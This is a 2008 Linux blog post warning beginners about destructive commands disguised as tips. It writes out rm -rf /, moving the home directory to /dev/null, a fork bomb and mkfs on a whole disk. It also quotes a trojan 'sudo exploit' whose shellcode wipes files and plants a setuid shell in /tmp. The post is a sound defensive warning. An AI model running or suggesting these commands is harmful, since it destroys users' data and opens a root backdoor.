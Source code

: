 ```yaml
---
author: admin
comments: false
date: 2008-10-25 02:43:04+00:00
layout: post
slug: fun-with-linux-commands-ii-with-power-comes-responsibility
title: Fun with Linux Commands-II - With Power Comes Responsibility
wordpress_id: 244
categories:
- TerminalFunFive
tags:
- commands
- Linux
- terminal
- TerminalFunFive
---
```


Happy Linux Commanding! But be careful!





The heading is self-explanatory. Linux Terminal seems dump but nothing is more clever than it. Linux is powerful and fun. When it is about something's strength remember what [Uncle Ben said](http://www.imdb.com/title/tt0145487/quotes).





When you are new to Linux you often seek to get help from others and almost most of the advices you get will be in the form of some commands such as` ps, top, modprobe, lspci` etc. Be careful when you run these commands as some [Anti-Linux a**holes try to fool new Linux users in the name of tips and tutorials](http://linsux.org/index.php?topic=96.0).If after following such command(s), you lose all your files, no one is to be blamed but you.



<!-- more -->



If you want save yourself, here is one principle: Be aware of what you are doing! Just don't do what someone suggest you. Fireup _man_ page, look what the command is about. This way you can learn a couple of more options too. If you are in doubt about the commands, go to a couple of forums and put all information you have such as: **Hello I was trying to do this, and a guy from _forum.xyz.com_ suggest me to issue this command. I suspect this is a harmful command. Any suggestions?** Take my words, Linux carries a strong spirit with it - spirit to share knowledge. And you will get some good explanatory suggestions very quickly. If you are still in doubt, I suggest you to issue the commands inside virtual OS:





[ad]





Last thing first. Today I will be posting some harmful Linux commands. DO NOT ISSUE THESE COMMANDS! These commands are just for your information. These commands are not made for making harm to your computer, but with a couple of options it can be very dangerous. After all Linux doesn't know that a folder inside your home directory contains your first girlfriend's picture! It is your duty to ensure they are safe. Let's get started. I repeat **DON'T ISSUE THESE COMMANDS**. If you want to test, I suggest you to run them inside a virtual Linux OS.







  1. The king of all devils:





`rm -rf /`





Q. What does _rm_ do?





A. Removes a file





Q. What is _r_?





A. Recursion. That means inside a folder, of a folder, of a folder and so on





Q. what is _f_?





A. Force. It means you are saying to the command_ "Never ask me anything. Just do what you want to do"_





Q. What is _/_





A. Your _ROOT_ directory!





See what it does? _Recursively removes all the files inside your root directory without nagging you - "Should I delete this?"
_
There are various versions of _rm_ available such as:





_rm -rf .
rm -rf *_





Not only someone from outside, you yourself can screw up things sometimes. Little knowledge is dangerous! How about this - you want to delete all the hidden files inside a directory. That's easy right? Hidden files are denoted with **.** in front so you might be thinking this command **`rm - .*`** Nooooooooooo!!! It will delete all the files one level up of the current directory.







  1. How about backing up your home directory or some folders? Never try to do anything such as:





`mv /home/yourhomedirectory/* /dev/null`





Q. What is _mv_?





A. Move files





Q. What is _dev/null_?





A. Null means nothing. In other words, it is a black-hole.





If you issue above command, it will move all the files inside your home directory to a blackhole.







  1. Linux Terminal is not a toy to play, it's something to learn and do some productive things. I just mean to warn you don't type anything silly and hit enter such as this:





`:(){:|:&};:`





Those seem like emoticons but they are actually shell programming stuffs and have special meaning. The above command executes different process freezing your computer and you will get a BSOD, a sort of! ;-)







  1. How about making a Linux filesystem?





`mkfs.ext3 /dev/sda`





You hard disk's data are gone, and will never come back again. That was a poor farewell party for your documents.







  1. Do you know eyes and your knowledge both can lie? Well sometimes. What do you see in the following C file written by someone claiming [New sudo off-by-one poc exploit](http://seclists.org/fulldisclosure/2007/Aug/0071.html)? Any sign of devil?





> `...`

char esp[] __attribute__ ((section(".text"))) /* e.s.p
release */
= "xebx3ex5bx31xc0x50x54x5ax83xecx64x68"
"xffxffxffxffx68xdfxd0xdfxd9x68x8dx99"
"xdfx81x68x8dx92xdfxd2x54x5exf7x16xf7"
"x56x04xf7x56x08xf7x56x0cx83xc4x74x56"
"x8dx73x08x56x53x54x59xb0x0bxcdx80x31"
"xc0x40xebxf9xe8xbdxffxffxffx2fx62x69"
"x6ex2fx73x68x00x2dx63x00"
"cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;";

...





Well this is a hex coded version of `**rm -rf ~ / &**` . This does nothing more than wiping off your home directory.





These are only a few guidelines you need to follow. If you know some more, drop them in comments.





If you want to learn Linux, conquer its power, have fun, and be productive, you need to be careful, helpful, and share your knowledge. If you have any knowledge on Linux that you want to share, let us know in comments or shoot me an email.





So what did you learn today?





[ad]



